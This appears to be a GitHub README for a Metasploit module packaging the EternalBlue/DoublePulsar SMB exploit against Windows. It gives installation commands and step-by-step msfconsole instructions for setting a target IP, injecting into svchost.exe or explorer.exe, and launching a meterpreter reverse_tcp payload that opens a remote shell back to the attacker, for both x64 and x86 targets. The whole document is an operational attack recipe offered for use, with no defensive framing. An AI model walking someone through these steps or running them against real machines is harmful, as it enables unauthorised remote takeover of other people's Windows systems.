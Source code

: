 # Eternalblue-Doublepulsar-Metasploit

# How to Install

- dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
- git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
- cd Eternalblue-Doublepulsar-Metasploit
- cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb

* Note: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
- mkdir -p /root/.wine/drive_c/

# How to use

- service postgresql start
- service postgresql enable
- msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options

 * For Windows x64 
- ================================================================================================
-  RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or et PROCESSINJECT svchost.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 * For Windows x86
 - ================================================================================================
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or et PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 # Have a Fun! :)

